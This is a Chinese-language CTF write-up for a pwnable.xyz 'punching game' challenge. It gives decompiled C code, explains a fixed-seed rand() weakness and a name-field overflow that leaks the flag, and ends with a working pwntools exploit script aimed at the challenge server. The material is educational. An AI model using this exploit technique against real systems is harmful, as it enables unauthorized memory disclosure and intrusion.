


### 知识点：

- 伪随机数：

  `srand(seed)`，当seed一样时，`rand()`产生的随机数序列一样


### 关键代码：

```c

undefined8 main(void)

{
  int iVar1;
  size_t __nbytes;
  long in_FS_OFFSET;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  motd_select_character();
  do {
    while( true ) {
      while( true ) {
        printf("score: %ld\n",game_t._48_8_);
        printf("gimmi pawa> ");
        local_18 = 0;
        local_14 = rand();
        __isoc99_scanf(&DAT_00101136,&local_18);           // D
        getchar();
        if (local_18 != local_14) break;                   // E
        puts("draw");
        printf("Save? [N/y]");
        iVar1 = getchar();
        if (iVar1 == 0x79) {
          printf("Name: ");
          __nbytes = strlen(game_t + 4);
          read(0,game_t + 4,__nbytes);                     // F
        }
      }
      if (local_18 <= local_14) break;
      game_t._48_8_ = game_t._48_8_ + 1;
    }
  } while (local_14 <= local_18);
  printf("Sowwy, pleya %s luse, bay bay",0x302044);        // G
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}


void motd_select_character(void)

{
  int iVar1;
  int local_14;
  
  printf("\n\tLet\'s play a punching game? [Y/n] : ");
  iVar1 = getchar();
  if (iVar1 == 0x6e) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  getchar();
  printf("Name: ");
  read(0,game_t + 4,0x2c);                  // A
  printf("Select your character: \n\t1. Goku\n\t2. Saitama\n\t3. Naruto\n\t4. Toriko\n> ");
  iVar1 = getchar();
  if (iVar1 == 0x32) {
    choose_saitama();
    goto LAB_00100e06;
  }
  if (iVar1 < 0x33) {
    if (iVar1 == 0x31) {
      choose_goku();
      goto LAB_00100e06;
    }
  }
  else {
    if (iVar1 == 0x33) {
      choose_naruto();
      goto LAB_00100e06;
    }
    if (iVar1 == 0x34) {
      choose_toriko();
      goto LAB_00100e06;
    }
  }
  puts("Invalid");                          // C
LAB_00100e06:
  srand(game_t._0_4_);                      // B
  printf("Loading");
  for (local_14 = 0; local_14 < 5; local_14 = local_14 + 1) {
    putchar(0x2e);
    sleep(1);
  }
  putchar(10);
  iVar1 = open("./flag",0);
  if (iVar1 != -1) {
    read(iVar1,game_t + 0x38,0x80);
    close(iVar1);
    return;
  }
  puts("error");
                    /* WARNING: Subroutine does not return */
  exit(1);
}


```


### 描述




#### 程序流程

- 程序先读取长度为44(0x2c)的name，因为与字段长度一样，所以这里有溢出；
- 然后设置一个随机数种子（B行），选择角色的时候可以输入非菜单项让随机数种子保持为0（C行）；
- 读取flag到图中的位置；

- 进入循环，每次读取一个数字（D行）；

- 读取的数字与`rand()`生成的随机数作比较（因为前面已经设置随机种子为0，所以这里的随机数我们是已知的），根据结果有不同效果：
  - 小于：退出循环，打印name（G行）；
  - 相等：重新读取长度为`strlen(game_t + 4)`的字符串到name的位置（F行）；
  - 大于：score+1；


### 思路

- 已知name是有溢出的，而flag的地址在name后面，中间间隔8字节的score；所以只要将score每个字节覆盖为非零，就能得到flag；

- 最简单的方法是每次输入一个很大的数字，让score+1，一直到0x0101010101010101，也就是72340172838076673次循环，故该方法不成立；
- 因为是小端CPU（低字节在低位），只要将低n个字节覆盖为非零，就能用F行将这n个字节改为0xff ，也就是这n个字节所能表示的最大值，再通过score+1将n+1位设置为1，最终在有限时间内完成目标；





脚本：

```python
from pwn import *
from ctypes import CDLL

context.terminal = ['tmux', 'splitw', '-h']

libc = CDLL("libc.so.6")
libc.srand(0)

p = remote('svc.pwnable.xyz', 30024)
# p = process('./challenge')
p.sendlineafter(b' : ', b'y')
p.sendafter(b'Name: ', b'a' * 0x2c)
p.sendafter(b'> ', b'5')

# score -> (1 << 8n) - 1
def send_rnd(n):
    rnd = libc.rand()
    p.sendlineafter(b'gimmi pawa> ', str.encode(str(rnd)))
    p.sendafter(b'Save? [N/y]', b'y' + b'a' * 0x2c + p8(0xff) * n)

# score -> score + 1
def send_max():
    libc.rand() # 保持同步
    p.sendlineafter(b'gimmi pawa> ', b'4294967295')

# 让0-len位填满st字符
#
# overflow(8,0xff):
# [0,0,0,0,0,0,0,0] -> [0xff,0xff,0xff,0xff,0xff,0xff,0xff,0xff]
#
# overflow(6, 0x1): 
# [0,0,0,0,0,0,?,?] -> [0x1,0x1,0x1,0x1,0x1,0x1,?,?]
def overflow(len, st):
    if len == 1:
        send_max()
    else:
        overflow(len - 1, 0xff)
        send_max()
        overflow(len - 1, 1)
    if st != 0x1:
        send_rnd(len)

overflow(8, 0x1)
# gdb.attach(p)
p.sendlineafter(b'gimmi pawa> ', b'0')
p.interactive()

```

